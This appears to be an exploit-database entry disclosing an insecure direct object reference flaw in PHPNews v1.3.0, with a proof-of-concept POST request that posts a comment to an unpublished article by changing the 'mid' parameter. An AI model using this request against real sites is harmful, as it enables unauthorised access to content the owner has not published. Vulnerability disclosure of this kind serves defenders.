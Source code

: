 # Exploit Title: PHPNews v1.3.0 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://sourceforge.net/projects/newsphp/files/PHPNews%201._/PHPNews%201.3.0/phpnews_1-3-0.zip/download
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHPNews
## Version: v1.3.0
## Exploit Description:
## PHPNews v1.3.0 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to add comment to post that is unpublished(horizontal privilege escalation).

## -----------------------------------------------POC-------------------------------------------------------------------
```
POST /news.php?action=post HTTP/1.1
...
mid=2(CHANGE HERE)&name=user1&email=&website=http%3A%2F%2F&message=i+am+user1&submit=Add+Comment
```